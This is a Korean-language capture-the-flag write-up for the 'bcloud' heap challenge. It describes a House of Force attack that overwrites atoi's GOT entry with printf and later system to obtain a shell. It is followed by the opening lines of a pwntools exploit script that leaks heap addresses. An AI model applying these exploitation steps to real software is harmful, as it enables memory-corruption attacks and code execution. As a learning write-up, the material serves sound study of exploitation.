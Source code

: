 충족하니 house of force 기법을 이용해 공격하면 된다.

atoi got를 printf plt로 overwrite해야한다.

(atoi got) - (top chunk) - header(8) 을 한 값을 넣어야 하지만 이 문제에서는 -4만큼 더 빼서

(atoi got) - (top chunk) - header(8) - 4 한 size를 할당해야한다.

그리고 user data를 입력할 때 바로 printf plt로 덮는게 아니라 “AAAA”+p32(printf_plt) 이렇게 덮어야 한다.

이렇게 하면 atoi가 printf로 바껴 fsb가 가능해진다.

offset구하고 printf_got넣고 libc leak했다.

system offset까지 구해주고,

다시 house of force를 통해 atoi->printf로 바뀐 atoi_got를 system_got로 바꿔야 한다.

다행하게도 3번메뉴에서 user data를 수정 할 수 있다.

근데 3을 입력하려는데 입력이 안된다. 이는

atoi가 printf로 바뀌었기 때문.

3이면 문자를 3개 이어 붙혀서 send하면 된다.

즉, atoi로 3이면 pritnf “AAA”와 같다.

그렇게 해서 다시 AAAA+p32(system)으로 덮어주고 nptr을 /bin/sh로 바꾸어주면 쉘을 얻을 수 있다.

libc를 어떻게 leak할 수 있는지 leak vector를 찾는게 좀 중요한 문제였고 이 문제를 통해 힙의 대한 이해와 hof 기법에 대한 이해도가 높아진 것 같아서 배운게 많은 좋은 문제였던 것 같다.

> exploit.py

----------
```python
from pwn import  *

s = process("./bcloud")

e = ELF("./bcloud")

libc = ELF("/lib/i386-linux-gnu/libc.so.6")

#context.log_level = 'debug'

s.recv()

s.send("A"*64)

s.recvuntil("A"*64)

atoi_got = e.got['atoi']

printf_plt = e.plt['printf']

printf_got = e.got['printf']

leak_heap=u32(s.recv()[:4])

heap_base = leak_heap -  0x8

top_chunk = heap_base +  224  # (header(8) + data(64))*3

log.success("leak_heap:"  + hex(heap_base))

log.success("top_chunk:"  + hex(top_chunk))

s.send("B"*64)

```